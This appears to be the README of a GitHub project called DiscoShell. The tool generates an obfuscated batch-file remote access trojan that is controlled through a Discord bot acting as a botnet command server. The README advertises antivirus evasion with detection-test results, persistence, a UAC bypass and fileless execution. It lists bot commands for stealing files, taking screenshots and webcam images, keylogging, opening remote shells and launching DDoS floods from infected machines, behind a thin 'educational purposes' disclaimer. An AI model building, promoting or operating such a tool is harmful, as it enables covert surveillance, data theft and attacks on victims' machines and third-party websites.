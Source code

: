 # DiscoShell

DiscoShell (a.k.a. DiscoSh) is a simple command line tool that can generate a nearly undetectable remote access trojan that connects to a Discord bot. More or less allowing the creation of a Discord-based botnet. 

DiscoSh generates a batch file stager which can be optionally obfuscated with [BatchGuard](https://github.com/cchash/BatchGuard) modules. The generated file can be used on its own and does not require additional code to be wrapped over it.

![image](https://media.discordapp.net/attachments/959762900443070485/960033794327461928/unknown.png)

If you have any issues using this tool, feel free to DM me on Discord (chash#0466) or [create a GitHub issue](https://github.com/cchash/DiscoShell/issues/new).

## Detection status
Virustotal result of generated file:
![image](https://media.discordapp.net/attachments/959762900443070485/960034118375190608/unknown.png)
[Link](https://www.virustotal.com/gui/file/541a70073404f35f6c0500d68de377d01dea3571f241723bb5975720c39dead8)

Also tested on a VM against Windows Defender, Avast and AVG.

None of the above guarantee that the generated file is fully undetectable.

## Features
- Persistence
- UAC bypass
- Fileless

\+ Can perform all things described in the [Discord bot commands](#discord-bot-commands) section.

## Discord bot commands
You can use the following commands to control infected machines via a Discord bot.

Note: Prefix can be customised
```
get : Get username, machine name and screenshot of all infected machines.
getcam : Get snapshot from all video sources on specified machine.
getfile {machine_name} {file_path} : Upload file located in {file_path} on specified machine to Discord.
ipinfo {machine_name} : Get IP address and geolocation of specified machine.

shell {machine_name} : Start remote shell on specified machine.
command {machine_name} {command} : Execute command on specified machine.

startkeylogger {machine_name} : Start keylogger on specified machine.
stopkeylogger {machine_name} : Stop keylogger on specified machine.
getkeylog {machine_name} : Get logged keys on specified machine.

startddos {website_url} : Make all infected machines send GET requests to specified URL.
stopddos : Make all infected machines stop sending GET requests.

getav {machine_name} : Get all antivirus products installed on specified machine.
uninfect {machine_name} : Uninfect specified machine.
```

## Disclaimer
This project was made for educational purposes and to test the capabilities of using Discord as a C2 server. If you choose to use this illegally/maliciously, it is your responsibility.
